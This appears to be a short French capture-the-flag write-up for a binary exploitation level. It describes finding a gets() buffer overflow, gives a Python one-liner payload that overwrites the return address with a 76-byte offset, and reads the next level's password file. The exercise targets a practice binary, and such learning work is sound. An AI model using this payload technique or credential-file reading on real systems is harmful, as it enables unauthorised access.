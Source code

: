 Comment trouver le flag1

On a encore un programme quand on le disassemble on voit que y'a une fonction gets et que le programme s'arrete

info function

On voit que le main a une function gets appelée on peut ecrire dans ce buffer (potentiel overflow)

on voit que la function RUN n'est pas execute dans le main

donc on va essayer d'overflow le gets grace a un buffer overflow generator https://wiremask.eu/tools/buffer-overflow-pattern-generator/
l'overflow a lieu a partir de 76

on va donc faire un programme python on quite gdb

python -c "print 76 * 'a' + '\x08\x04\x84\x44'[::-1]" > /tmp/overflow (on ecrit ::-1 pcq quand c ecrit dans la memoire c a l'envers du coup on retourne la chaine de base a l'envers pour quelle soit a lendroit)

on va ouvrir un STDIN avec un cat et faire executer notre overflow 

cat /tmp/overflow - | ./level1

L'overflow a marcher puisque grace a whoami on voit qu'on est le level2

cat /home/user/level2/.pass on a notre flag